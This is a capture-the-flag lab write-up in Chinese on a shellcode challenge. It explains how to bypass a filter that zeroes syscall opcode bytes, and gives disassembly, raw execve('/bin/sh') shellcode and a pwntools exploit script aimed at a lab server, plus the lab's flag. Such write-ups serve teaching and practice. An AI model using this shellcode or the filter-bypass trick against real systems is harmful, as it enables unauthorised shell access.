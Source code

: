 ```python=
r.interactive()
```

## Lab-Shellcode
Flag: `flag{How_you_do0o0o0o_sysca1111111}`

### 解題流程與思路
這一題其實和[pico-filtered shellcode](https://hackmd.io/@SBK6401/HJ0Yn79ih)有點像，主要就是開個RWX權限的空間，最後跳過去執行寫的shellcode，並且在跳過去之前會檢查一些東西，像這一題就是檢查有沒有0x0f或0x05的byte，如果有就填成0，可以觀察一下寫成shellcode過後的hex到底長怎麼樣
```python
>>> disasm(asm('''
    mov rax, 0x68732f6e69622f
    push rax
    mov rdi, rsp
    xor rsi, rsi
    xor rdx, rdx
    mov rax, 0x3b
    syscall
'''))

   0:   48 b8 2f 62 69 6e 2f 73 68 00   movabs rax, 0x68732f6e69622f
   a:   50                      push   rax
   b:   48 89 e7                mov    rdi, rsp
   e:   48 31 f6                xor    rsi, rsi
  11:   48 31 d2                xor    rdx, rdx
  14:   48 c7 c0 3b 00 00 00    mov    rax, 0x3b
  1b:   0f 05                   syscall'
```
可以看到0f 05就是syscall的op code，也就是說，如果按照最簡單的shellcode送過去到最後會沒有syscall去呼叫execve，所以我們要用一些方式去bypass這個filter，例如可以先像TA上課說的，把0x0e04放到register後透過加減自行還原出0x0f05這東西，再把他放到對應的address就可以了

### Exploit
```python=
from pwn import *

# r = process('./lab')
r = remote('10.113.184.121', 10042)
context.arch = 'amd64'


# payload = asm('''
#     mov rax, 0x68732f6e69622f
#     push rax
#     mov rdi, rsp
#     xor rsi, rsi
#     xor rdx, rdx
#     mov rax, 0x3b
#     mov rcx, 0x040e
#     add rcx, 0x0101
#     mov qword [rip-0x8], rcx
# ''')
payload = b'H\xb8/bin/sh\x00PH\x89\xe7H1\xf6H1\xd2H\xc7\xc0;\x00\x00\x00H\xc7\xc1\x0e\x04\x00\x00H\x81\xc1\x01\x01\x00\x00H\x89\r\x00\x00\x00\x00'
raw_input()
r.sendline(payload)

r.interactive()
```
